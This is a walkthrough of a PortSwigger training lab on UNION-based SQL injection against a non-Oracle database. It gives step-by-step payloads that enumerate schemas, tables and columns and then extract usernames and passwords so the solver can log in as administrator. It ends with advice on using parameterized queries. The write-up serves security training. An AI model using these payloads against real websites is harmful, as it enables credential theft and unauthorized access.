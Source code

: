 
# [Lab 5: SQL Injection Attack, Listing the Database Contents on Non-Oracle Databases](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle)


### Overview
This lab demonstrates a SQL injection attack that allows an attacker to list the contents of the database on non-Oracle databases. The vulnerability exists in the product category filter, and a UNION attack is used to retrieve data from other tables, including usernames and passwords.

### Steps to Exploit

1. **Identify the Number of Columns:**
   - Use the following payload to determine the number of columns:
     ```plaintext
     category=Pets' UNION SELECT NULL,NULL -- -
     ```
   - This confirms that the query returns two columns.
   ![Columns Identified](assets/5.1.png)

2. **List Schemas:**
   - Retrieve the list of schemas using:
     ```plaintext
     category=Pets' UNION SELECT NULL,schema_name FROM information_schema.schemata-- -
     ```
   - The response shows the available schemas.
   ![Schemas Listed](assets/5.2.png)

3. **List Tables in 'public' Schema:**
   - Retrieve the list of tables in the 'public' schema using:
     ```plaintext
     category=Pets' UNION SELECT NULL,table_name FROM information_schema.tables WHERE table_schema='public' -- -
     ```
   - The response shows the tables in the 'public' schema.
   ![Tables Listed](assets/5.3.png)

4. **List Columns in 'users_ufessl' Table:**
   - Retrieve the list of columns in the 'users_ufessl' table using:
     ```plaintext
     category=Pets' UNION SELECT NULL,column_name FROM information_schema.columns WHERE table_name='users_ufessl'-- -
     ```
   - The response shows the columns in the 'users_ufessl' table.
   ![Columns Listed](assets/5.4.png)

5. **Retrieve Usernames and Passwords:**
   - Retrieve the usernames and passwords from the 'users_ufessl' table using:
     ```plaintext
     category=Pets' UNION SELECT password_yypinv,username_rwjztx FROM public.users_ufessl-- -
     ```
   - The response shows the usernames and passwords.
   ![Usernames and Passwords](assets/5.5.png)

6. **Login with Retrieved Credentials:**
   - Log in with the credentials for the 'administrator' user to solve the lab.
   ![Login as administrator](assets/5.6.png)

### Conclusion
This lab provides a practical example of how SQL injection vulnerabilities can be exploited to list the contents of a database on non-Oracle databases. It emphasizes the importance of implementing secure coding practices and using parameterized queries to prevent such attacks.
